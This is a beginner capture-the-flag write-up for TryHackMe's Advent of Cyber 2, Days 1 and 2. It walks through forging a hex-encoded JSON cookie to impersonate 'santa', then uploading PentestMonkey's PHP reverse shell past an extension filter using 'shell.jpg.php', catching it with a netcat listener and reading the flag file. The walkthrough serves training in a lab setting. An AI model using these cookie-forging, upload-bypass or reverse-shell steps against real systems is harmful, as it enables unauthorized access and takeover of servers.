 # Advent of Cyber 2
#### Get started with Cyber Security in 25 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.
#### [Room Link](1)

## Tasks
<details>
<summary>1. [Day 1] Web Exploitation - A Christmas Crisis</summary>

Welcomeeeee back to the Advent of Cyber! Since the last year hopefully Santa's elfs are better at securing the network!

First off, we see there is information about DNS, HTTP, and cookies making you think that this will likely focus on basics and work up through the days as we perform more challenges and get better with our skills. After deploying the target machine and open up the IP in the web browser we see this screen asking us to register.

 ![Day1Webpage](https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/AdventOfCyber2/resources/day1_webpage.png)

We go ahead and register with some credentials and are greeted with this page:

  ![Day1Console](https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/AdventOfCyber2/resources/day1_console.png)

Moving into the questions we first have `What is the name of the cookie used for authentication?`.
Seems pretty simple so far! We can find out what cookies were set in Firefox by pressing F12 then selecting the "Storage" tab.
Looking at "Cookies" set for the site we see the cookie is this(you can also view this by using a 3rd party browser extension "Cookie Manger"):

`{
 "cookieManagerVersion": "1.6",
 "userAgent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0",
 "cookies": [
 {
  "name": "auth",
  "value": "7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a226e617068616c227d",
  "domain": "10.10.121.234",
  "hostOnly": true,
  "path": "/",
  "secure": false,
  "httpOnly": false,
  "session": true,
  "storeId": "firefox-default",
  "sameSite": "no_restriction",
  "firstPartyDomain": ""
 }
]
}`  
So we can get our first answer pretty quickly: `auth`.

Looking at the second question: `In what format is the value of this cookie encoded?`
We can see the value is the string `7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a226e617068616c227d` which appears to be encoded. Having previous experience and knowing this is a beginners CTF we can guess that this is a simple encoding algorithm such as Base64, ROT13, or Hex. Throwing the string into [CyberChef](https://gchq.github.io/CyberChef/) we can try the basic encoding which in this case appears to be hex! Looking back at the string we can verify this by seeing that all the characters are within the [a-f] & [1-9] range which are the characters that represent hex values! Therefore we have our second answer `hexadecimal`!

With our newly decoded string:
`{"company":"The Best Festival Company", "username":"naphal"}`

We see the next question asks us this: `Having decoded the cookie, what format is the data stored in?`.

Having previous experience definitely helps again here as I know this is a `JSON` format however some quick  google searches on web data formats (specifically Javascript, one of the main web programming languages ) should point you in the right direction.

  After entering out answer `JSON`, we see the prompt `Figure out how to bypass the authentication.` which means lets get hacking!

  We are given the question `What is the value of Santa's cookie?` which makes us look back at the cookies to see what we can do with it. Up in the section explaining Cookies, it starts with the sentence "HTTP is an inherently stateless protocol." which is a clue about what we have to do.

  Given that HTTP is a stateless protocol, cookies are used throughout the web to save state about what you are doing, if you are logged in an and who you are logged in as. To increase security, even if you have a cookie the webserver will save several things to verify the cookie is the same as the one issued and that you arent changing to values to access things you shouldnt. However, if the web server DOESNT verify that information we might be able to get access to other user's state by changing the cookie values.

  Knowing this is in JSON format and encoded within hexadecimal, all we have to do is change the value in the original cookie to "Santa" then hex encoded it. After getting that new value, we can hope back over to our original cookie and replace the `value` field with our new encoded string.

  `{"company":"The Best Festival Company", "username":"santa"}`
  hex encode to (if you have spaces in CyberChef set the delimiter option to "None"):
  `7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2273616e7461227d`

After putting value into the correct field in our original cookie, we can refresh the page and see it looks a bit different!

 ![SantaConsole](https://raw.githubusercontent.com/gwagstaff/CTF-Write-Ups/master/TryHackMe/AdventOfCyber2/resources/day_santaconsole.png)

 After firing up all the controls we get our flag!

 This was a good intro and hopefully you learned a few things or brushed up on your skills for the upcoming days!

 See yall on Day 2!
</details>
<details>
<summary>2. [Day 2] Web Exploitation The Elf Strikes Back!</summary>

Gooooooddd morninngggg TryHackmeeee! Time for Day 2 of the Advent of Cyber 2!

Taking a look at the "dossier" prepared for us we see that GET Parameters, File Uploads, and Reverse Shells are mentioned indicating that we will most likely be focusing on a [File Upload vulnerability](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)!

After launching our machine and opening our THM AttackBox see this blurb:
`For Elf McEager:
You have been assigned an ID number for your audit of the system: [REDACTED] . Use this to gain access to the upload section of the site.Good luck!`


Hmmm, so we will keep that in mind but lets first go to the webpage mentioned for the first question: `What string of text needs adding to the URL to get access to the upload page?`

Well browsing to the webpage we are greeted with this page

![NotSignedIn](..\resources\day2_notsignedin.png)

Well it does give us the hint `Please enter your ID as a GET parameter (?id=YOUR_ID_HERE)` which calls back the dossier note:

 `We then have the resource that we're selecting -- in this case that is the homepage of the website: index.php. As a side note, all homepages must be called "index" in order to be correctly served by the web server without having to be specified fully. This is how you can go to https://tryhackme.com without having to specify that you want to receive the home page -- the index page is served automatically because you didn't specify!
The final two aspects of the URL are the most important for our current topic: they both relate to GET parameters. First up we have ?snack=. Here ? is used to specify that a GET parameter is forthcoming. We then have the parameter name: snack. This is used to identify the parameter to the server. We then have an equals sign (=), indicating that the value will come next.`

Well first knowing that `index.php` should serve us the same page, we browse to `http://[machineIP]]/index.php` to verify this! We do see the same page! Now that we know we are using `index.php` we should be able to add in our GET parameter which combine our given ID and the string they have on the webpage!

Entering the correct URL we get to this new page!

![protectthefactory](..\resources\day2_protectthefactory.png)

Now that we have a upload page lets take a look at the source code to get some clues on what we can do! BY entering `viewsource:` before a URL in FireFox lets you easily see the sourcecode of a website OR you can do the same by right-clicking and clicking `View Source`.

Looking at the source code we see this piece of HTML `<input type=file id="chooseFile" accept=".jpeg,.jpg,.png">` which indicates this upload form is looking for file that match the extensions `.jpeg,.jpg,.png` which are image file extensions. However it seems to be looking for only the file extensions and not checking to see if those files are ACUTAL image files.

If that is the case then we may be able to upload that reverse shell that was mentioned in the dossier!

Since we know this is a `index.php` page lets try a common php reverse shell available from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)!

So after downloading our script we need to edit the options:
`$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS`

to the IP of our host machine and the port our shell listener will be at! After that we can go ahead and make a new copy with our "png" ending with the command `cp php-reverse-shell.php shell.png`

After changing our IPs and file extension, lets go ahead and open up a new terminal and run the command `nc -nvlp 4545` to listen on port 4545 for our reverse shell!

Back on our webpage we go and select our new `shell.jpg` and click the upload button. We get the message `File received successfully!` but nothing seems to happen. Well knowing that this is the upload page we might have to browse to another URL on the host to see the file we uploaded!

Trying first `[machineIP]/images/` but that gives us the same "Enter ID" page. Lets try the URL `machineIP/uploads/` which give us this page with our uploaded `shell.png`!

![uploadsdir](..\resources\day2_uploadsdir.png)

Let go ahead and click on our "image" file and check the `nc` session! However there doesn't seem to be a session :/ Hmmmm, we seem to get the error `The image [URL] cannot be displayed because it contains errors.` Well it seems that the server may attempt to execute the file so lets change our extension up some more to see if we cant get our php shell to run.

Looking back at the dossier we see this tidbit of info:
    `File Extension Filtering: As the name suggests extension filtering checks the file extension of uploaded files. This is often done by specifying a list of allowed extensions, then checking the uploaded file against the list. If the extension is not in the allowlist, the upload is rejected.
    So, what's the bypass? Well, the answer is that it depends entirely on how the filter is implemented. Many extension filters split a filename at the dot (.) and check what comes after it against the list. This makes it very easy to bypass by uploading a double-barrelled extension (e.g. .jpg.php). The filter splits at the dot(s), then checks what it thinks is the extension against the list. If jpg is an allowed extension then the upload will succeed and our malicious PHP script will be uploaded to the server.`

Well that explains exactly what is going on! Always read the entire folks or end up like me!

Switching up to our new file extension of the same script with the command `cp php-reverse-shell.php shell.jpg.php`, we then upload the new file and execute it with from the `/uploads/` directory!

Looking back at our `nc` we see that we have a shell!

To answer the final question we use the command `cat /var/www/flag.txt` to read out the flag.

Key Takeaways!:
ALWAYS READ THE DOSSIER -  The dossier is helping us out so make sure to read it fully to understand what is going on in the problem!
KISS (Keep it simple stupid)! - Try the basic stuff before thinking advanced! This is a learning CTF!
</details>

3. Day 3 Coming!
4. Day 4 Coming!
5. Day 5 Coming!

## Review

For links:
[1]: https://tryhackme.com/room/adventofcyber2
[2]:
[3]:
[4]:
[5]:
